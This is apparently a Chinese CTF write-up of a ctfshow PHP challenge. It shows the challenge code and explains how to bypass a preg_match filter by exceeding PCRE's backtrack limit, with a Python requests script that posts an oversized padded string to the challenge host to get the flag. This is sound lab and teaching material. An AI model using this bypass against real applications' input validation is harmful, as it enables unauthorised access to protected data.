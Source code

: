 题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

不同于前一题使用数组绕过，这里加了强制类型转换(String)绕过传入数组$f会直接变成Array，这里使用最大回溯法绕过，preg_match在处理字符超过一定长度时会返回false这是php的一个安全特性以防止正则表达式的拒绝服务攻击（reDOS）;默认是1000000可以通过`var_dump(ini_get('pcre.backtrack_limit'));`查看回溯次数的最大限制。只要字符数超过最大回溯限制就会返回false

payload：

```python
import requests

buffer = "very"*(1000000//len("very"))+"36Dctfshow"
data = {
    "f":buffer
}

resp = requests.post("http://28ccf4b7-d103-4956-8cc9-b476ad42c263.challenge.ctf.show/",data=data,verify=False)
print(resp.text)
```

> PHP回溯上限利用
>
> 常见的正则引擎，又被细分为DFA（确定性有限状态自动机）与NFA（非确定性有限状态自动机）。
>
> - DFA: 从起始状态开始，一个字符一个字符地读取输入串，并根据正则来一步步确定至下一个转移状态，直到匹配不上或走完整个输入。
> - NFA：从起始状态开始，一个字符一个字符地读取输入串，并与正则表达式进行匹配，如果匹配不上，则进行回溯，尝试其他状态。
>
> 大多数程序语言都使用NFA作为正则引擎，其中也包括PHP使用的PCRE库
>
> PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限pcre.backtrack_limit。
